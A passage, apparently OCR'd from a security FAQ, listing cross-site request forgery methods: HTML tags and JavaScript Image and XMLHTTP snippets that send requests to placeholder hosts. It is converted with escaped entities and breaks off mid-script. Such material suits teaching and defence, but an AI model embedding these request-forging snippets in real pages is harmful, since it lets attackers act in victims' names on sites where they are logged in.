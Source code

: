 HTML Methods

IMG SRC \&lt;img src=&quot;http://host/?command&quot;\&gt;

SCRIPT SRC \&lt;script src=&quot;http://host/?command&quot;\&gt;

IFRAME SRC \&lt;iframe src=&quot;http://host/?command&quot;\&gt;

JavaScript Methods

&#39;Image&#39; Object

\&lt;script\&gt;

var foo = new Image();

foo.src = &quot;[http://host/?command](http://host/?command)&quot;;

\&lt;/script\&gt;

&#39;XMLHTTP&#39; Object (See &quot;Can applications using only POST be vulnerable?&quot; for when this can be used)

IE

\&lt;script\&gt;

var post\_data = &#39;name=value&#39;;

var xmlhttp=new ActiveXObject(&quot;Microsoft.XMLHTTP&quot;);

xmlhttp.open(&quot;POST&quot;, &#39;[http://url/path/file.ext](http://url/path/file.ext)&#39;, true);

xmlhttp.onreadystatechange = function () {

if (xmlhttp.readyState == 4)

{

alert(xmlhttp.responseText);

}

};

xmlhttp.send(post\_data);

\&lt;/script\&gt;

Mozilla

\&lt;script\&gt;

var post\_data = &#39;name=value&#39;;

var xmlhttp=new XMLHttpRequest();

xmlhttp.open(&quot;POST&quot;, &#39;[http://url/path/file.ext](http://url/path/file.ext)&#39;, true);

xmlhttp.onreadystatechange = function () {

if (xmlhttp.readyState == 4)

